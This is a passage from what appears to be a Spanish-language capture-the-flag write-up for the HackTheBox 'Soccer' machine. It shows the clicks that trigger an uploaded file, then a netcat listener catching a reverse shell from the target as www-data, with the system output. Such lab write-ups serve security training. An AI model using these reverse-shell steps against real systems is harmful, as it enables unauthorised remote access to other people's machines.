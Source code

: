 
* Le damos click al nombre del archivo:

![](/assets/images/htb-writeup-soccer/Captura9.png)


* Le damos click en **Open**:

![](/assets/images/htb-writeup-soccer/Captura10.png)


* Y ya deberíamos estar conectados:
```bash
nc -nvlp 443                                                    
listening on [any] 443 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.11.194] 41962
Linux soccer 5.4.0-135-generic #152-Ubuntu SMP Wed Nov 23 20:19:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 19:03:20 up  2:31,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```